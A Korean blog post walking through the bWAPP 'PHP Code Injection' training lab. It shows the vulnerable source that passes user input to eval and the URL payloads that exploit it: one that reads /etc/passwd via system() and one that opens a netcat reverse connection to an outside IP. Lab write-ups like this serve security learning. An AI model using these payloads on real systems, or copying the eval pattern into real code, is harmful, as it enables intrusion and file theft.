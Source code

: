 ```yaml
---
layout: single
title: (bWAPP)PHP Code Injection
categories: Web-vuln
tag: [php injection, php, injection, bwapp, bee box, php code injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
sidebar:
    nav: "counts"
---
```


# 검증 로직

```php
<?php

if(isset($_REQUEST["message"]))
{

    // If the security level is not MEDIUM or HIGH
    if($_COOKIE["security_level"] != "1" && $_COOKIE["security_level"] != "2")
    {

?>
    <p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>

<?php

    }

    // If the security level is MEDIUM or HIGH
    else
    {
?>
    <p><i><?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?></i></p>

<?php

    }

}

?>
```
## Level - Low
![그림 1-1](/assets/image/bwapp/php-code-injection/image.png)

```PHP
<p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
```

- 해당 문제에 주어지는 LOW Level 소스코드는 위와 같다.
- eval 함수를 사용하여 사용자의 입력값을 실행하도록 되어 있다.
> eval() 함수란 사용자의 입력값으로 들어온 문자열을 해당 Server Side Script 의 코드로 인식하여 실행하는 함수이다. 이 때 입력값으로 들어온 문자열이 시스템 명령 함수가 존재할 경우 시스템 함수를 실행시킨다.

- 해당 LOW Level 에서 아무런 사용자 입력 값에 대한 유효성 검살를 하지 않고 바로 eval() 함수를 사용한다. 

```
/bWAPP/phpi.php?message=hello
```

![그림 1-2](/assets/image/bwapp/php-code-injection/image2.png)
- 입력값이 echo 명령과 합쳐지면 페이지에 출력되는것을 확인했다. 

```
/bWAPP/phpi.php?message=system(%27head%20-3%20/etc/passwd%27)
```

- 위와 같이 php system 명령어를 인자로 넘겨줬다.
![그림 1-3](/assets/image/bwapp/php-code-injection/image3.png)
- system() 명령이 성공적으로 실행된 걸 확인할 수 있다.
- 이를통해 Reverse Shell Connection또한 가능하다.

```
/bWAPP/phpi.php?message=system(%27nc%20192.168.146.137%205252%27)
```

![그림 1-4](/assets/image/bwapp/php-code-injection/image4.png)
- 성공적으로 Reverse Connection이 맺어진 걸 볼 수 있다.

## Level - Medium & High

```php
<p><i><?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?></i></p>
```

- LOW Level 을 제외한 단계에서는 htmlspcialchars() 함수를 사용하여 메타문자 입력을 금지하고 있다.

- 이를 통해 LOW Level 과 같이 치명적인 공격은 불가능 하며, php의 경우 phpinfo() 를 통해 사용중인 php 정보 확인과 같은 취약점 판별은 가능하다

```
/bWAPP/phpi.php?message=phpinfo()
```

![그림 1-5](/assets/image/bwapp/php-code-injection/image5.png)
